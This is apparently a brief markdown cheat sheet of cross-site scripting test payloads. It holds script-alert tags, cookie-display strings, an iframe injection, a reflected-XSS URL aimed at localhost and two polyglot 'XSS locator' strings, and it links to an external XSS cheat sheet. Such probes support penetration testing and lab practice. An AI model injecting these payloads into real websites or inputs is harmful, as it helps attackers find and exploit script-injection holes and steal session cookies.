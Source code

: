 # XSS (CROSS SITE SCRIPTING)

```javascript
<script>alert("XSS")</script>
<script>alert(document.cookie)</script>
```

iframe: `<iframe src="http://www.cnn.com"></iframe>`  
Stored cookie: `<script>alert(document.cookie)</script>`  
Reflected (vulnerable parameter): `http://localhost/xss_r/?name=<script>alert(document.cookie)</script`


[Cheatsheet](http://ha.ckers.org/xss.html)
------------------------------------------

XSS locator:

```javacsript
';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
```

XSS locator 2:

```
'';!--"<XSS>=&{()}
```
